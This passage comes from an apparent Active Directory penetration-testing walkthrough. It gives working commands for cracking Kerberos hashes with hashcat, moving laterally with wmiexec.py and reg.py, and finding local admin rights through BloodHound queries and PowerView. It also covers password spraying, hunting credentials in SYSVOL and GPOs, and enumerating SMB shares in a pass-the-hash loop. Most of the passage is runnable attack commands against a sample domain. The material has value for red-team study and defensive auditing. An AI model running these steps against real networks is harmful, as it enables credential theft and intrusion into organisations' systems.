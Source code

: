 TGT upload format can be as follows:

```
$krb5asrep$23$ - RC4
$krb5asrep$17$ - AES128
$krb5asrep$18$ - AES256
```

The next stage will be Brute-force. Once you have a service account, you can continue lateral movement in the domain:

```
hashcat -a 0 -m 13100 /tmp/hash /usr/share/wordlists/somelist.txt -w 4 -O
```

So we have several accounts, a lot of information from AD, how do we move on? First, you need to check those accounts in the Bloodhound database that you already have, carefully study their rights, groups, permissions. If you have cleartext passwords for SPN account - go back to them and try to go to the server specified in TGS using:

```
python wmiexec.py jaki.local/someuser@jaki.local -k -no-pass
# try to read Remote Registry
reg.py -k jaki.local query -keyName HKU -s
```

Don't forget that you have a list of all hosts, as well as their rights and groups in the domain, examine all accounts with local administrator rights on the hosts. There is a corresponding request for Bloodhound:

```
MATCH p=(m:User)-[r:AdminTo]->(n:Computer) RETURN p
```

It will show you all hosts with local administrator rights, on any hosts. Examine these accounts, check if these users are enabled, how long ago the password was assigned? You may be able to perform a **Password Spray attack**, both for administrative accounts and for the actual list from the Bloodhound dump, or request an easier-to-parse format with GetADUsers.py
If the accounts you get are not local administrators on Bloodhound, it might be worth checking this and logging into each server and workstation to make sure:

```
runas /netonly /U:someuser@jaki.local powershell
dir \\jaki.local\sysvol
Import-Module .\PowerView.ps1
Find-LocalAdminAccess -domain jaki.local
```

Don't forget the scripts in the **\\\jaki.local\sysvol** folder, very often administrators forget about the security of this directory and leave a lot of useful information in it, even passwords for service accounts.

Use **PingCastle.exe --healthcheck --server jaki.local** to collect detailed information about the domain, you may find logins and passwords in the GPO.

Use the obtained accounts and smb shares to get information about read and write permissions:

```
while read line; do echo $line && smbclient -L $line -U JAKI\\someusername%NTLM --pw-nt-hash -m SMB3; done < /tmp/smb_hosts.txt > /tmp/log_smbshares.txt
```
